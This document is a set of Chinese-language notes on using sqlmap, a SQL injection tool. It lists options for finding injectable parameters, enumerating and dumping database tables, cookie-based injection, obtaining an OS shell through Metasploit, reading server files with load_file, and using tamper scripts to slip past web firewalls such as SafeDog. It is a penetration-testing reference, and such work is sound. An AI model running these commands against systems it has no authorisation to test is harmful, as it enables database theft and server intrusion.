 # Sqlmap

---

所有请求方式都能注入，默认是get/post,但是当使用--level参数>=2时，检查cookies，>=3时检查user-agent和referer、 --level 1 GET|2 cookies|3 POST

提示输入的选择，大写是回车默认选项

出现红色提示就是错误，建议加参数

版本：

```
python 版本，较简便，基础功能都有(https://github.com/sqlmapproject/sqlmap)

kali版本，较全面，可以msf联动
```

---

## 常用：

```
python sqlmap.py -u http://www.xxx.com/id=1 -p Id --random-agent --dbms mysql -proxy=http://127.0.0.1:10809 --threads=5 --dbs
```



---

sqlmap -u "http://URL/id=1"	

## 参数

```

--current-db 		#列出当前的数据库
 
--current-user		#列出当前的权限用户

--threads=线程数    #设置线程数，0~10

--delay 1           #延时1秒

--referer IP或域名  #设置访问来源

--is-dba  #查看当前数据库用户权限

--level 等级  （等级越高检测会越全面，总5级）

--dbms 数据库名 （指定数据库类型）

--batch   按照sqlmap的默认提示往下确认

--proxy http://localhost:8080 #代理

--random-agent

-p 参数名  #指定注入点参数，当有多个参数时使用 ,默认全部参数都测试注入

-r 文件名         #该文件是能注入的页面的抓·包

--charset=     #编码格式GBK、UTF-8

--dbs 			#列出服务器中所有的数据库

-D 库名 --tables 	#列出该库的所有表

-D 库名 -T 表名 --columns #列出库名的表名的所有字段名

-D 库名 -T 表名 -C "字段名" --dump #列出库名的表名的字段名的数据

-vv 显示详细操作如：使用的payload等

4.0版本可以用

--os-pwn #获取操作系统的shell  ，需要依赖msf（建议在kali里使用）

--sql-shell               
# 文件读取
1.
select load_file('绝对路径') #查看后台登录页面判断登录的代码，找到用户名和密码的代入查询的字段名，和表名（注意，路径使用/，无论是windows还是linux，如要使用\ 就使用\\或者16进制,16进制就不用双引号）windows2003读取C:/windows/system32/inetarv/metabase.xml就可以查看到所有网站根目录
2.
select load data infile '绝对路径' into table user1;  #读取文件写入到user1表中
select * from user;  
3.mysql 5.x以上，sql连接是本地才可以执行
system cat 绝对路径 ;  #执行系统命令读取

```
当无法读取数据库表名

```
情况：
1.版本小于5.0的MySQL没有information_schema表
2.微软Access的MSysObjects表默认不可读
3.数据库用户权限过低无法读取表名

--common-tables  #爆破表名，爆破字典路径txt/common-tables.txt
--common-columns #爆破列名，爆破字典路径txt/common-columns.txt
```



指定注入类型：

```
--technique B
B : 基于Boolean的盲注（Boolean based blind）
Q : 内联查询（Inline queries）
T : 基于时间的盲注（time based blind）
U : 基于联合查询（Union query based）
E : 基于错误（error based）
S : 栈查询（stack queries）
```

---

## cookies注入：（等级2才有cookies注入检测）

sqlmap -u "URL/xxx.php" --cookie "id=n" --level 2 --dbms=mysql --dbs   #cookies注入mysql数据库，查看所有数据库

--cookie "id=n"  --level 2 -D 库名 --tables

--cookie "id=n"  --level 2 -D 库名 -T 表名 --columns

--cookie "id=n"  --level 2 -D 库名 -T 表名 -C "字段名" --dump

\-----------------------------

## temper

tamper（编写绕过规则）：进行绕过waf（防护规则，检测发包间隔）

sqlmap默认tamper有  

sqlmap -u "http://URL/id=1" --tamper "xx.py"  --delay 3 #每次发包延迟3秒再发

 -v 显示包的等级

暂时能过V3.2，更高版本的安全狗要研究

详细：http://www.91ri.org/7852.html

空格 换成 #、随即字符串、换行符

